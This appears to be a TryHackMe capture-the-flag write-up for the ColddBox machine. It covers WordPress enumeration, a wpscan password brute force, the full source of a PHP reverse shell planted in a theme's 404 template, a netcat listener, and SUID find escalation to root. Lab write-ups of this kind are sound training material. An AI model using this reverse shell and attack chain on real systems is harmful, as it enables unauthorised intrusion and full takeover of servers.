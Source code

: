 # ColddBox — Writeup

**Fecha:** 1-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontró un WordPress vulnerable, se obtuvieron credenciales por fuerza bruta, se subió un reverse shell editando la plantilla 404, se consiguió shell como www-data, se mejoró a TTY interactiva y se explotó /usr/bin/find con SUID para elevar a root y leer las flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary**
* 80/tcp open http (Apache/2.4.18)

---
## Web Enumeration (Gobuster)

```bash
  gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
**Comment:** `dir` busca directorios y archivos ocultos; `-w` lista de palabras.

**Result**
```bash
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://$IP/wp-content/]                                                                     
/wp-admin             (Status: 301) [Size: 315] [--> http://$IP/wp-admin/]                                                                       
Progress: 141707 / 141707 (100.00%)
===============================================================
```

## User Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```
**Comment:** `--enumerate u` enumera usuarios de wordpress.

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

**Brute Force**
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash
[!] Valid Combinations Found:
 | Username: c0ldd, Password: REDACTED
```
## Foothold
**Login Wordpress**
```bash
http://$IP/wp-admin.php
Username: c0ldd, Password: REDACTED
```

**Edit Theme: 404 template**
```bash
404.php: reverse shell script
```

<details>
<summary>reverse shell script</summary>

```bash
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '$IP';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
 ?>
```

</details>

**Execute Payload**
```bash
http://$IP/wp-content/themes/twentyfifteen/404.php
```

**Listen Port**
```bash
$ nc -lvnp 1234             
listening on [any] 1234 ...
connect to [$IP] from (UNKNOWN) [$IP] 43560
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:40:36 up 17 min,  0 users,  load average: 0.07, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

**Upgrade Shell**
```bash
# introducir en reverse shell
$ script /dev/null -c bash

# introducir en local terminal
$ stty raw -echo;fg             
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@ColddBox-Easy:/$ 
```

---

## Privilege Escalation
**Find SUID Files**
```bash
find / -perm /4000 2>/dev/null
```
**Comment:** ``/usr/bin/find`` es el resultado relevante arrojado.

**Exploit SUID Find**
```bash
find . -exec /bin/sh -p \; -quit
# whoami
root
```

**Cat User Flag**
```bash
# cat /home/c0ldd/user.txt
```

**Cat Root Flag**
```bash
# cat /root/root.txt
```
